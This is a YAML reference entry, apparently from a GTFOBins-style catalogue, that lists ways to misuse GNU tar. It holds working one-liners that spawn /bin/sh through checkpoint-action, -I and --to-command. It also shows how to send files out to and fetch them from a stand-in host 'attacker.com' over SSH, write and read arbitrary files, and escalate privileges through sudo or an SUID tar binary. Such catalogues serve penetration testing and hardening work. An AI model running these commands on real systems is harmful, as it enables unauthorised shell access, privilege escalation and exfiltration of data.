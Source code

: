 ```yaml
---
functions:
  shell:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
    - description: This only works for GNU tar.
      code: tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
    - description: This only works for GNU tar. It can be useful when only a limited command argument injection is available.
      code: |
        TF=$(mktemp)
        echo '/bin/sh 0<&1' > "$TF"
        tar cf "$TF.tar" "$TF"
        tar xf "$TF.tar" --to-command sh
        rm "$TF"*
  file-upload:
    - description: Create tar archive and send it via SSH to a remote location. The attacker box must have the rmt utility installed.
      code: |
        export RHOST=attacker.com
        export RUSER=root
        export RFILE=/tmp/file_to_send.tar
        export LFILE=file_to_send
        tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/bin/ssh
  file-download:
    - description: Download and extract a tar archive via SSH. The attacker box must have the rmt utility installed.
      code: |
        export RHOST=attacker.com
        export RUSER=root
        export RFILE=/tmp/file_to_get.tar
        tar xvf $RUSER@$RHOST:$RFILE --rsh-command=/bin/ssh
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_read
        tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
  sudo:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  limited-suid:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
---
```

